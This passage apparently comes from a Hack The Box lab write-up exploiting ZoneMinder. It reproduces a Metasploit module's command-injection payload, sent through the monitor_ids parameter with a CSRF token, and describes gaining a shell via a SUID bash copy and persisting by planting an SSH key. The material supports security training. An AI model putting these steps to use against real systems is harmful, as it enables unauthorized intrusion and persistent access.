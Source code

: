 This confirms that this instance is vulnerable. I could only find one PoC for this exploit, which requires the usage of `msfconsole`:

{% embed url="https://sploitus.com/exploit?id=PACKETSTORM:175675" %}

I dislike using Metasploit in general, so I read the exploit and did it manually. In the exploit, the `execute_command` function is quite simple:

```rb
def execute_command(cmd, _opts = {})
    command = Rex::Text.uri_encode(cmd)
    print_status('Sending payload')
    data = "view=snapshot&action=create&monitor_ids[0][Id]=;#{command}"
    data += "&__csrf_magic=#{@csrf_magic}" if @csrf_magic
    send_request_cgi(
    'uri' => normalize_uri(target_uri.path, 'index.php'),
    'method' => 'POST',
    'data' => data.to_s
    )
    print_good('Payload sent')
    end 
```

Basically visits `localhost:8080` and then sends a command to that specific directory with the `__csrf_magic` parameter, of which the latter can be found in `index.php`:

![](../../.gitbook/assets/htb-surveillance-image-9.png)

To confirm this, I just created a file on the machine with `echo rcecfm > /tmp/test`:

![](../../.gitbook/assets/htb-surveillance-image-10.png)

The above shows that I had RCE as `zoneminder`. To get a shell, I used `chmod+%2bs+/tmp/zone` on a copy of `bash`.

![](../../.gitbook/assets/htb-surveillance-image-11.png)

Afterwards, I could just drop my SSH key in `authorized_keys` for the `zoneminder` user to upgrade shells.
